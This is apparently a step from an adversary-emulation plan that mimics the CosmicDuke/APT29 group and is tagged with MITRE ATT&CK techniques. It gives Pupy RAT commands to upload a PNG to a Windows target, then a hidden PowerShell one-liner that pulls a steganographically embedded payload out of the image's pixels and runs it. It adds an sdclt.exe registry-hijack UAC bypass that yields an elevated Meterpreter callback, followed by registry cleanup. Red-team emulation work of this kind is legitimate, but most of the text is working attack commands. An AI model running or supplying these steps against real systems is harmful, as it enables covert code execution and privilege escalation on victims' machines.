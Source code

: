 From Pupy, upload [monkey.png](monkey.png) to target:

[pupy] > `upload "/tmp/monkey.png" "C:\Users\<username>\Downloads\monkey.png"`
[pupy] > `shell`
[pupy CMD] > `powershell`

#### 3.B - Abuse Elevation Control Mechanism: Bypass User Access Control ([T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/))

[pupy (PowerShell)] >

```powershell
New-Item -Path HKCU:\Software\Classes -Name Folder -Force;
New-Item -Path HKCU:\Software\Classes\Folder -Name shell -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell -Name open -Force;
New-Item -Path HKCU:\Software\Classes\Folder\shell\open -Name command -Force;
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "(Default)"
```

**Paste the following 1-liner when prompted for value:**

```powershell
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```

**When prompted for value, press: [Enter]**

[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `%windir%\system32\sdclt.exe`
[pupy CMD] > `powershell`

You should receive a high integrity Meterpreter callback.

#### 3.C - Modify Registry ([T1112](https://attack.mitre.org/techniques/T1112/))

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`
[pupy (PowerShell)] > `exit`
[pupy (CMD)] > `exit`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* CosmicDuke has occasionally embedded other malware components that are written to disk and executed.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>
